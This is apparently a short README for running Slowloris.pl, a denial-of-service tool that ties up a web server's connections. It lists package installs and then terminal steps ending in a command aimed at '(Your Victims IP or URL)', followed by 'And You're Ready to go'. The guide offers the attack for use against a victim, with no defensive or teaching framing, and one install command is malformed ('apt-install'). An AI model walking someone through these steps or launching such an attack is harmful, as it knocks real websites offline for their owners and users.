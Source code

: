 

   How to use Slowloris.pl
   
   Requirements:
   1. sudo apt-get update
   2. sudo apt-install perl
   3. sudo apt-get install libwww-mechanize-shell-perl
   4. sudo apt-get install perl-mechanize
   
   1.) Download Slowloris.pl
   2.) Open your Terminal
   3.) Type = cd /ThePathYouHaveSlowloris.pl
   4.) Type = ./Slowloris.pl
   5.) Type = perl Slowloris.pl -dns (Your Victims IP or URL) -options
   
        And You're Ready to go
        
Fabian Schacher
